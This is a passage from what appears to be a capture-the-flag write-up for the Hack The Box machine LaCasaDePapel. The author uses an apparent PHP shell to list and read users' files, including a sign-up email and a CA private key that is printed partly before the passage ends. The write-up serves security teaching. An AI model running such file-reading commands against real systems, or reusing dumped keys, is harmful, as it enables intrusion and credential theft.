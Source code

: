 In Oslo's mail directory I find an email that seemed to have been generated when I logged in with the OTP token on the main webpage.

```
scandir('/home/oslo/Maildir');
=> [
     ".",
     "..",
     ".Sent",
     ".Spam",
     "cur",
     "new",
     "tmp",
   ]
scandir('/home/oslo/Maildir/.Sent/cur');
=> [
     ".",
     "..",
     "1553996613811.M45533P25345V0000000000064766I000000000bddc36.lacasadepapel.htb,S=430,2,S",
   ]
readfile('/home/oslo/Maildir/.Sent/cur/1553996613811.M45533P25345V0000000000064766I000000000bddc36.lacasadepapel.htb,S=430,2,S');
Content-Type: text/plain; format=flowed
From: dali@lacasadepapel.htb
Content-Transfer-Encoding: 7bit
Date: Sun, 31 Mar 2019 01:53:01 +0000
Message-Id: <1553997181916-f1bee4c5-810b2c36-4f055080@lacasadepapel.htb>
MIME-Version: 1.0

Welcome to our community!
Thanks for signing up. To continue, please verify your email address by 
clicking the url below.
https://lacasadepapel.htb/64fd1030-5356-11e9-ae89-233fa7c29f94

=> 430
```

I also find the CA private key in Nairobi's home directory:

```
readfile('/home/nairobi/ca.key');
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb
7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/
2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl
uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M
YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp
s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us
PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V
Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89
1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ
/CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+
q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr
uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd
I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og
7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE
G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn
sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH
CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y
sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI
ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2
zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/
ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC
9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M
WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM
```